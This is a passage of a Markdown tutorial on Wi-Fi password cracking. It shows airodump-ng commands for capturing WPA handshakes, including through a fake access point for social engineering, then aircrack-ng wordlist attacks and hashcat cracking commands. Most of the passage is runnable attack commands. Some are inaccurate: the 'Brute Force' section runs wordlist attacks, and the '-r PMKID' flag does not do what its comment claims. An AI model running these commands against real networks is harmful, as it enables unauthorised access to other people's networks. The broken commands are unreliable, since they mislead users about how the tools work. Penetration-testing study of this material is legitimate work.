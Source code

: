     # Capture handshakes from connecting clients
    sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w fake_handshake wlan0mon
    ```

    !!! danger "Fake AP Method"
        - **Pros**: Can capture multiple handshakes
        - **Cons**: Highly detectable, requires careful setup
        - **Best for**: Advanced testing, social engineering scenarios

---

## 🔓 Cracking Techniques

### **Dictionary Attacks**
```bash
# Basic dictionary attack
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt handshake-01.cap

# Custom wordlist
sudo aircrack-ng -w /path/to/custom.txt handshake-01.cap

# Multiple wordlists
sudo aircrack-ng -w wordlist1.txt,wordlist2.txt handshake-01.cap
```

### **Brute Force Attacks**
```bash
# 4-way handshake brute force
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b AA:BB:CC:DD:EE:FF handshake-01.cap

# PMKID attack (if supported)
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -r PMKID handshake-01.cap
```

### **Hashcat Integration**
```bash
# Convert cap to hccapx
cap2hccapx handshake-01.cap handshake.hccapx

# Hashcat attack
hashcat -m 2500 handshake.hccapx /usr/share/wordlists/rockyou.txt

# GPU acceleration
hashcat -m 2500 -d 1 handshake.hccapx /usr/share/wordlists/rockyou.txt
```

---



## 📊 Monitoring & Analysis
